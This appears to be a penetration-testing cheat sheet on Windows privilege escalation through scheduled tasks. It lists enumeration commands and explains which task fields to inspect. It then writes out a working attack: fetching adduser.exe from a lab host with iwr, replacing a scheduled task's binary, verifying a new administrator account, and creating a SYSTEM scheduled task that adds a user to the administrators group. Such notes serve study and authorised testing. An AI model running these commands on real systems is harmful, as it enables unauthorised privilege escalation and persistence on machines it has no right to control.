 ### Scheduled Tasks

Find.

```bash     
$header="HostName","TaskName","NextRunTime","Status","LogonMode","LastRunTime","LastResult","Author","TaskToRun","StartIn","Comment","ScheduledTaskState","IdleTime","PowerManagement","RunAsUser","DeleteTaskIfNotRescheduled","StopTaskIfRunsXHoursandXMins","Schedule","ScheduleType","StartTime","StartDate","EndDate","Days","Months","RepeatEvery","RepeatUntilTime","RepeatUntilDuration","RepeatStopIfStillRunning"

schtasks /query /fo csv /nh /v | ConvertFrom-Csv -Header $header | select -uniq TaskName,NextRunTime,Status,TaskToRun,RunAsUser | Where-Object {$_.RunAsUser -ne $env:UserName -and $_.TaskToRun -notlike "%windir%*" -and $_.TaskToRun -ne "COM handler" -and $_.TaskToRun -notlike "%systemroot%*" -and $_.TaskToRun -notlike "C:\Windows\*" -and $_.TaskName -notlike "\Microsoft\Windows\*"}
```

```bash
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

For us, three pieces of information are vital to obtain from a scheduled task to identify possible privilege escalation vectors:

    As which user account (principal) does this task get executed?
    What triggers are specified for the task?
    What actions are executed when one or more of these triggers are met?

We can view scheduled tasks on Windows with the **Get-ScheduledTask** Cmdlet or the command **schtasks/query**. We'll use the latter. We enter /fo with LIST as argument to specify the output format as list. Additionally, we add /v to display all properties of a task. We should seek interesting information in the Author, TaskName, Task To Run, Run As User, and Next Run Time fields. In our case, "interesting" means that the information partially or completely answers one of the three questions above.

```bash
schtasks /query /fo LIST /v | Select-String -Pattern "04:0" -Context 4,4 # Smart to filter the output to tasks being run in the same hour as the current time
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe # Check permissions for scheduled task
iwr -Uri http://192.168.119.3/adduser.exe -Outfile BackendCacheCleanup.exe # Same binary that we made for swapping binary file
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
move .\BackendCacheCleanup.exe .\Pictures\
net user
net localgroup administrators # Verify new user is created
```

```bash
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

#### IF YOU CAN WRITE TO A BAT FILE BEING EXECUTED BY A SCHEDULED TASK ->

```bash
schtasks /Create /RU "SYSTEM" /SC ONLOGON /TN "SchedPE" /TR "cmd /c net localgroup administrators user /add"
```
